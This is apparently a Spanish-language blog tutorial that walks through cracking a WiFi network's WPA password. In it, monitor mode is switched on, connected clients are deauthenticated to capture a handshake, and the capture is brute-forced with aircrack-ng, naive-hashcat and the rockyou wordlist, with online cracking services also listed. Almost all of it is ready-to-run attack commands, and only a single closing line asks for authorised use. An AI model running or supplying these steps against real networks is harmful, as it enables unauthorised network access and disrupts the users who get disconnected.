 ```yaml
---
layout: single
title: "WiFi Hacking: Fuerza Bruta y Métodos Adicionales"
excerpt: "En este artículo se explica cómo realizar un ataque de fuerza bruta a una red WiFi utilizando herramientas como Aircrack-ng, y se presentan métodos adicionales para obtener contraseñas."
date: 2025-04-02
classes: wide
header:
  teaser: /assets/images/ruyztz/wifi-hacking.png
  teaser_home_page: true
categories:
  - Seguridad
  - Hacking
tags:
  - WiFi
  - Hacking
  - Seguridad
  - Aircrack-ng
---
```


# Hacking WiFi: Fuerza Bruta y Métodos Adicionales

Este artículo detalla los pasos básicos para hackear una red WiFi mediante un ataque de fuerza bruta utilizando **Aircrack-ng** y describe métodos adicionales para obtener la contraseña.

## Pasos para hackear una red WiFi

<br>
**1. Conectar la antena.**

<br>
**2. Instalar Aircrack-ng:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>sudo apt install aircrack-ng</code></pre>
</div>

<br>
**3. Cambiar a usuario root:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>sudo su</code></pre>
</div>

<br>
**4. Verificar y matar procesos que puedan interferir con la antena:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>airmon-ng check 
airmon-ng check kill</code></pre>
</div>

<br>
**5. Iniciar la antena en modo monitor:**  
(Utiliza el nombre de la antena que se muestra con el comando `ifconfig`.)

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>airmon-ng start nombreAntena</code></pre>
</div>

<br>
**6. Escanear las redes disponibles:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>airodump-ng nombreAntenaModoMonitor</code></pre>
</div>

<br>
**7. Identificar el BSSID** de la red a la que se quiere acceder.

<br>
**8. Capturar paquetes para obtener el handshake:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>airodump-ng -c NumeroCanalDeLaRed --bssid bssid -w nombreArchivosCaps nombreAntenaModoMonitor</code></pre>
</div>

<br>
**9. Enviar paquetes de desautenticación:**  
Mantén abierto el terminal y ejecuta:

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>sudo aireplay-ng -0 9 -a bssid -c estaciónDesautenticada nombreAntenaModoMonitor</code></pre>
</div>

<br>
**10. Realizar el ataque de fuerza bruta:**  
Cuando se consiga el handshake, se crean los archivos necesarios. Realizar ataque de fuerza bruta en el archivo `.cap`:

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>aircrack-ng -b handshakeObtenido -w rockyou.txt archivo.cap</code></pre>
</div>

<br>
**11. Detener la antena en modo monitor:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>airmon-ng stop nombreAntena</code></pre>
</div>

---

## Métodos adicionales para obtener la contraseña

<br>
**1. Clonar el repositorio de naive-hashcat:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>git clone https://github.com/brannondorsey/naive-hashcat</code></pre>
</div>

<br>
**2. Compilar el código en el directorio `src`:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>cd naive-hashcat/src
make</code></pre>
</div>

<br>
**3. Convertir el archivo `.cap` a `.hccapx`:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>cap2hccapx.bin archivo.cap archivoHash.hccapx</code></pre>
</div>

<br>
**4. Descargar el diccionario rockyou:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>curl -LO https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt</code></pre>
</div>

<br>
**5. Ejecutar naive-hashcat:**

<div style="background-color: rgba(0, 0, 0, 0.7); color: #fff; padding: 6px 10px; border-radius: 5px; font-family: 'Fira Code', 'Courier New', monospace; font-size: 14px;">
  <pre style="margin: 0;"><code>HASH_FILE=archivoHash.hccapx POT_FILE=archivo.pot HASH_TYPE=2500 ./naive-hashcat.sh</code></pre>
</div>

---

## Alternativas y Recursos

- **Alternativas en línea:**
  - [Online Hash Crack](https://www.onlinehashcrack.com/wifi-wpa-rsna-psk-crack.php)
  - [GPU Hash](https://gpuhash.me/)

- **Más Información:**
  Consulta el repositorio [wifi-cracking](https://github.com/brannondorsey/wifi-cracking) para obtener más detalles y métodos adicionales.

> **Importante:** Estos conocimientos deben utilizarse de forma ética y legal. Realiza pruebas únicamente en entornos controlados o en redes sobre las que tengas autorización expresa.
